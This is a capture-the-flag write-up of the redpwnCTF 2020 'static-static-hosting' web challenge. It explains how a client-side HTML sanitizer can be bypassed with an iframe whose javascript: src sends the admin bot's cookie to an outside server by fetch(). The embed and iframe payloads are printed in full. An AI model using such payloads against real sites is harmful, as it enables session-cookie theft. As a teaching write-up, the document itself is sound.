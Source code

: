 ```yaml
---
title: static-static-hosting
date: 2020-06-23
tags: web, xss
ctf: redpwnCTF 2020
---
```

## Problem
```
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution
Similarly to [static-pastebin](./static-pastebin.md), this challenge takes user input, and creates a webpage using said input. The input is encoded into base64 to create a site, and then decodes it from the url to render it. For example, a site with the text ```<p>hi</p>``` generates the URL ```https://static-static-hosting.2020.redpwnc.tf/site/#PHA+dGVzdDwvcD4=```, as ```PHA+dGVzdDwvcD4=``` is the base64 encoding of ```test```.

The challenge also provides a link to submit a paste to the admin of the site, who would visit the link. Thus, this is XSS (cross site scripting) challenge.

Looking at the code to decode a paste, we see that there is some sanization on the input to try to stop XSS attacks:

```js
function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

The code removes all ```<script>``` tags, and limits the attributes to src, width, height, alt and class. That means that the img XSS we used in static-pastebin couldn't be used, as it relied on the onerror attribute. We could try a different tag for injection, such as ```<embed>``` for our payload:

```html
<embed src=javascript:fetch('https://api.sunnyzuo.com/'+document.cookie)>
```

Using the same web server for [static-pastebin](./static-pastebin.md), we can find the cookie of the admin bot and get out flag.

However, this payload didn't work; it functioned when I tested it using Firefox, but I got no response from the bot. After messaging the challenge author and learning that the bot ran on Chrome, I created a modified payload, using ```<iframe>``` instead:

```html
<iframe src=javascript:fetch('https://api.sunnyzuo.com/'+document.cookie)>
```

This payload ran fine, and we can find the flag in the server logs:
```
/flag=flag{wh0_n33d5_d0mpur1fy}
```

**Flag:** ```flag{wh0_n33d5_d0mpur1fy}```